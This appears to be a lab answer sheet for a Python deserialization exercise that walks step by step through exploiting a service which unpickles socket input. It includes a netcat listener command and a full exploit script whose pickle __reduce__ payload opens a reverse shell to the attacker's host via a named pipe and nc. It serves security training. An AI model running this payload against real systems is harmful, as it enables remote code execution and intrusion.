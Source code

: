 # Python Deserialization Answersheet

**Step 1:** Navigate to "Python: Connect over TCP Socket: 16662"
![Usage](1.png)
<br /> <br />

**Step 2:** Capture the IP Address and port.
![Usage](2.png)
<br /> <br />

**Step 3:** Start the listener using following command
```
`nc -nlvp 5555
```
![Usage](3.png)
<br /> <br />

**Step 4:** Use the following code to generate the payload
```python
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
import sys

if len(sys.argv) < 5:
    print "Usage: python py_exploit.py <attacker_ip_address> <attacker_port> <docker_ip_address> <docker_port>"
    sys.exit(1)

localIP=sys.argv[1] 
localPort=sys.argv[2]
dockerIP=sys.argv[3]
dockerPort=sys.argv[4]


class payload(object):
	def __reduce__(self):
		comm = "rm /tmp/shell; mknod /tmp/shell p; nc "+localIP+" "+localPort+" 0</tmp/shell | /bin/sh 1>/tmp/shell"
		return (os.system, (comm,))

payload = pickle.dumps( payload())
soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
soc.connect((dockerIP, int(dockerPort)))
print soc.recv(1024) 
soc.send(payload) 
```

**Step 5:** Run the exploit file using following command
```
python py_exploit.py 192.168.29.88 5555 192.168.29.201 16662
```
![Usage](4.png)
<br /> <br />

**Step 6:** Received the connection on Reverse shell and now we can extract the system information using whoami, uname -a command
![Usage](5.png)
<br /> <br />